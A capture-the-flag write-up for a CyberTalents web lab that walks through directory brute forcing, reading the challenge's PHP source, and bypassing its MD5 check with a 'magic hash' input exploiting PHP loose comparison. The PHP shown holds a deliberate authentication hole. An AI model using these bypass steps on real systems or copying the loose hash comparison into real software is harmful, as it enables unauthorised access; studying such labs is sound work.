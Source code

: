 # Solve T-jungle
### https://cybertalents.com/challenges/web/hashable

![alt text](image.png)

### Run Directory bruteforce

```bash
dirsearch -u http://wcamxwl32pue3e6m4nzy586unzkmj6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```

Output 
```bash
200 -    0B  - /flag.php 
```

### Analyze flag page request with burp 
```http
GET /flag.php HTTP/1.1
Host: wcamxwl32pue3e6m4nzy586unzkmj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Analyze php code
```php
<?php
highlight_file(__FILE__);
include 'flag.php';
if (isset($_GET['passwd'])) {

        if (hash("md5", $_GET['passwd']) == '0e514198421367523082276382979135'){
            echo' <html><head><link href="style.css" rel="stylesheet"></head><body>
            
            <div class="flash"style="text-align:center;margin-top:10%">ACCESS GRANTED : '.$flag.'</div></body></html>';
        } else {
            echo'<html><head><link href="style.css" rel="stylesheet"></head><body>
            <div class="flash" style="text-align:center; margin-top:10%">ACCESS DENIED</div></body></html>';
    
    }
}
?>
```
`highlight_file(__FILE__);`: This function is used to display the source code of the current PHP file (__FILE__).
include `'flag.php';`: This line includes the contents of flag.php into the current PHP script.
Password Verification:
The code checks if the `passwd` parameter is present in the GET request `(isset($_GET['passwd']))`.
If passwd is provided in the GET request, it calculates the **MD5** hash of the provided password using `hash("md5", $_GET['passwd'])` and stores it in `$input_hash`.
It then compares $input_hash with the hardcoded hash `'0e514198421367523082276382979135'`.

If the hash comparison results in a match `($input_hash == '0e514198421367523082276382979135' evaluates to true)`, the code displays **"ACCESS GRANTED"** along with the content of `$flag`.
If the hash comparison fails (no match), it displays **"ACCESS DENIED"**.

### Try to crack the hash 
`hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt` but we coudn't crack it with rockyou.

### Hash Comparison:
The comparison `if ($input_hash == '0e514198421367523082276382979135')` is interesting because the hardcoded hash value '0e514198421367523082276382979135' starts with '0e'. In PHP, when comparing strings that start with `'0e'` using `==` **(loose comparison)**, PHP treats them as numerical strings due to its type conversion rules. This can lead to unexpected behavior because PHP may interpret such strings as 0e... (e.g., 0e1234 is treated as 0 in numeric context).

#### To check try 
```php
<?php
   if (0 == '0e514198421367523082276382979135'){
    echo "pass";
     
   }
   else{
   echo "Wrong!";
   }
?>
```
Output : pass
#### Use the hash collision
```php
<?php
$passwd = '240610708';
if (hash("md5", $passwd) == '0e514198421367523082276382979135') {
    echo "The hash matches!";
} else {
    echo "The hash does not match.";
}
?>
```
Output : The hash matches!
Note: that hash of `240610708` is `0e462097431906509019562988736854` which is = `0 `in php
### Try to add passwd prameter
![alt text](image-2.png)

### Resources
[hash function documentation](https://www.php.net/manual/en/function.hash.php)
[hash collision](https://en.wikipedia.org/wiki/Hash_collision#:~:text=In%20computer%20science%2C%20a%20hash,a%20fixed%20length%20of%20bits.)

>Find More on ==> github.com/MedhatHassan 